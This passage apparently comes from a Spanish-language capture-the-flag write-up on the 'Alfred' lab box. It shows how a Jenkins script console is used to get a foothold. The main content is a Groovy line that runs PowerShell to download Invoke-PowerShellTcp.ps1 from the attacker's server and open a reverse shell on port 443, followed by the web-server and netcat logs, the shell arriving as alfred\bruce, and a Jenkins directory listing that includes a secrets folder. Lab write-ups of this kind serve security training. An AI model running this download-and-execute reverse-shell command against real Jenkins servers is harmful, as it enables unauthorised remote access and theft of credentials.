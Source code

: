 
Resultado
alfred\bruce



YA QUE VIMOS QUE PODEMOS EJECUTAR COMANDOS VAMOS A INTENTAR PASAR DESDE UN SERVIDOR PYTHON NUESTRO SCRIPT PARA OPTENER UNA REVERSE SHEL A LA ESCUCHA DE LA MISMA CON NETCAT:




println "powershell iex (New-Object Net.WebClient).DownloadString(\'http://10.10.217.63:8081/Invoke-PowerShellTcp.ps1\');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.217.63 -Port 443".execute().text


BINGO NUESTRO NETCAT ESCUCHO LA SHELL:

┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server 8081 
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.234.163 - - [22/Jan/2024 00:41:29] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.234.163 - - [22/Jan/2024 00:41:33] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -





┌──(root㉿kali)-[~]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.217.63] from (UNKNOWN) [10.10.234.163] 49334
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins>whoami
alfred\bruce
PS C:\Program Files (x86)\Jenkins> 



PS C:\Program Files (x86)\Jenkins> dir


    Directory: C:\Program Files (x86)\Jenkins


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/26/2019   4:37 PM            jobs                              
d----        10/25/2019   9:54 PM            jre                               
d----        10/25/2019   9:55 PM            logs                              
d----        10/25/2019   9:55 PM            nodes                             
d----        10/25/2019   7:58 PM            plugins                           
d----        10/26/2019   4:38 PM            secrets                           
d----         10/3/2020   3:42 PM            updates                           
d----        10/25/2019   9:55 PM            userContent                       
d----        10/25/2019   9:55 PM            users                             
d----        10/25/2019   9:54 PM            war                               
d----        10/25/2019   7:58 PM            workflow-libs                     
d----        10/26/2019   4:38 PM            workspace                         
-a---         1/21/2024  10:27 PM          0 .lastStarted                      
-a---         1/21/2024  11:55 PM         36 .owner                            
-a---         1/21/2024  10:27 PM       1742 config.xml                        
-a---         1/21/2024  10:27 PM        156 hudson.model.UpdateCenter.xml     
-a---        10/25/2019   7:58 PM        374 hudson.plugins.git.GitTool.xml    
-a---        10/25/2019   9:55 PM       1712 identity.key.enc                  
-a---         1/21/2024  11:12 PM     117240 jenkins.err.log                   
-a---         9/25/2019   2:10 PM     371200 jenkins.exe                       
-a---          4/5/2015   6:05 PM        219 jenkins.exe.config                
-a---        10/25/2019   7:59 PM          7 jenkins.install.InstallUtil.lastEx
                                             ecVersion                         
-a---        10/25/2019   7:59 PM          7 jenkins.install.UpgradeWizard.stat